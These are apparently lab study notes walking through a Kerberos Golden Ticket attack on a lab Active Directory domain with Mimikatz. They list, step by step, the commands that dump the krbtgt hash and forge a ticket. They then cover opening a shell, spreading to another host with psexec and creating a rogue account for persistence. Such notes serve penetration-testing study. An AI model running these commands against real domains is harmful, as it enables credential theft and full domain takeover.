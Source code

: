 # Golden Ticket Attacks

## What is a Golden Ticket

* gives us complete access to the whole domain
* can generate tickets with ticket granting ticket

## Golden Tickets Attack Overview with Mimikatz

### Step 1: Open Mimikatz and Always Start with the Same Command

```bash
privilege::debug
```

### Step 2: Dump the Hashes

```bash
lsadump::lsa
```

* to dump a specific user

```bash
lsadump::lsa /inject /name:krbtgt
```

### Step 3: Open Up a Notepad

* copy the SID of the domain (this is on the domain line of Mimikatz and is the long string of nums)
* sid example: S-1-5-21-301214212-3920777931-1277971883
* copy the NTLM of the krbtgt account (or any other account)

### Step 4: Generate Your Ticket

```bash
kerberos::golden /User:AdministratorOrFakeName /domain:marvel.local /sid:<sid> /krbtgt:<acc hash> /id:500 /ptt
```

### Step 5: Open Up a New Shell with the Session Created

```bash
misc::cmd
```

### Optional Step: Download Psexec into Victim and Get Another Shell

```bash
psexec.exe \\THEPUNISHER cmd.exe
```

### Optional Step: Create a User Account for Yourself

* you own the domain, so you can create an account

